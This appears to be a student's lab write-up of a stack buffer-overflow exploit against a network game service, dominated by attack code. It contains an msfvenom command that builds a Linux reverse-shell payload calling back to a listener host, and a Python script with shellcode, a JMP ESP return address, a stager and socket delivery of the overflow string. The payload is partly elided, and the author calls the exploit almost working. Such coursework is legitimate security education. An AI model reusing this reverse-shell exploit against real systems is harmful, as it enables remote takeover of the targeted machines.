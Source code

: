```bash
msf-pattern_offset -q 0x41367241 -l 4337
```

We can then verify that EIP contains `0x42424242`
![[Pasted image 20250402235643.png]]
### A screenshot of your final working exploit within Kali Linux (per slide 44)

We setup an Arch listening machine at `192.168.1.200` and create a payload with`msfvenom`
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.200 LPORT=12345 -a x86 -f python --platform linux -b "\x00\x20" -e x86/shikata_ga_nai
```

We then use this payload for out final exploit using our `jmp_esp` address obtained from the prev section
#### Final (almost working exploit)
```python
#!/usr/bin/python
import socket as so

server = "192.168.1.180"
port = 13327

# msfvenom reverse shell payload (replace with your generated payload)
buf =  b""
buf += b"\xbf\x7e\xa5\x2c\x6b\xdb\xc5\xd9\x74\x24\xf4\x5d"
buf += b"\x31\xc9\xb1\x12\x83\xc5\x04\x31\x7d\x0e\x03\x03"
buf += b"\xab\xce\x9e\xca\x68\xf9\x82\x7f\xcc\x55\x2f\x7d"
buf += b"\x5b\xb8\x1f\xe7\x96\xbb\xf3\xbe\x98\x83\x3e\xc0"
buf += b"\x90\x82\x39\xa8\xe2\xdd\xbb\xe0\x8b\x1f\xbc\xc0"
buf += b"\x72\xa9\x5d\x90\xe3\xf9\xcc\x83\x58\xfa\x67\xc2"
buf += b"\x52\x7d\x25\x6c\x03\x51\xb9\x04\xb3\x82\x12\xb6"
buf += b"\x2a\x54\x8f\x64\xfe\xef\xb1\x38\x0b\x3d\xb1"
# ... rest of payload ...

# Exploit components
jmp_esp = "\x8f\xf4\xff\xbf"  # Replace with your JMP ESP address (in little endian)
esp_stager = "\x83\xc0\x0c\xff\xe0"  # add eax,12; jmp eax

# Building the full payload
#offset = 4368
offset = 4371
nops = "\x90" * 20  # NOP sled

# Structure: command + [12 byte offset] + [shellcode] + [padding to EIP] + [JMP ESP addr] + [stager at ESP]
exploit = "\x11(setup sound " + "\x90" * 12 + nops + buf + "A" * (offset - len(nops) - len(buf) - 12) + jmp_esp + esp_stager

try:
        s = so.socket(so.AF_INET, so.SOCK_STREAM)
        print ("\nSending exploit of %s bytes" % len(exploit))
        s.connect((server, port))
        s.send(exploit + "\x90\x00#")
        s.close()
except:
        print ("[!] Connection refused, check debugger")
```
